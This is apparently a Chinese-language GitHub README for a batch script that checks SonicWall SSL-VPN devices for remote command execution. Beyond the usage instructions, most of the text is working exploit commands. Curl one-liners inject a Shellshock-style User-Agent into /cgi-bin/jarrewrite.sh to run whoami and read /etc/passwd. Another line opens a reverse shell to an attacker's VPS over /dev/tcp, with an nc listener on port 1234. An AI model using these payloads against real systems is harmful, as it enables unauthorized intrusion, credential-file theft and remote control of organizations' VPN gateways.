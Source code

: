# SonicWallSSL-VPN_RCE

一个简单的SonicWallSSL-VPN远程命令执行批量检测脚本

脚本写得比较简单，主要是对于批量url检测比较实用

用法：将需要检测的url放入同一目录下的url.txt中

执行

python3 SonicWallSSL-VPNrce.py



单个url检测直接在命令行检测即可，

比如：

命令执行：

curl -A "() { :; }; echo ; /bin/bash -c 'whoami'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k

curl -A "() { :; }; echo ; /bin/bash -c 'cat /etc/passwd'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k

反弹shell：

VPS nc监听1234端口，

然后

curl -A "() { :; }; echo ; /bin/bash -c ' bash -i >& /dev/tcp/VPS的IP/1234  0>&1 '" https://x.x.x.x/cgi-bin/jarrewrite.sh -k
